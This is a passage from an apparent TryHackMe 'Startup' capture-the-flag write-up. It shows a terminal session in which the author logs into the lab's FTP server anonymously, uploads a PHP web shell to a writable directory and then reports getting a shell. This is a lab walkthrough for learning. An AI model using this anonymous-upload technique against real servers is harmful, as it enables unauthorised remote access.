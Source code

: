 Next I uploaded the script via ftp. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $ftp startup
Connected to startup.
220 (vsFTPd 3.0.3)
Name (startup:daz): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (168.9849 MB/s)
ftp> exit
221 Goodbye.
```

I was unable to add to the initial directory however once I changed to the 'ftp' directory I was able to successfully upload the web shell script. Now I just need to navigate to the file in my browser.

![webshell](/assets/images/startup/webshell.png)

We have a shell!
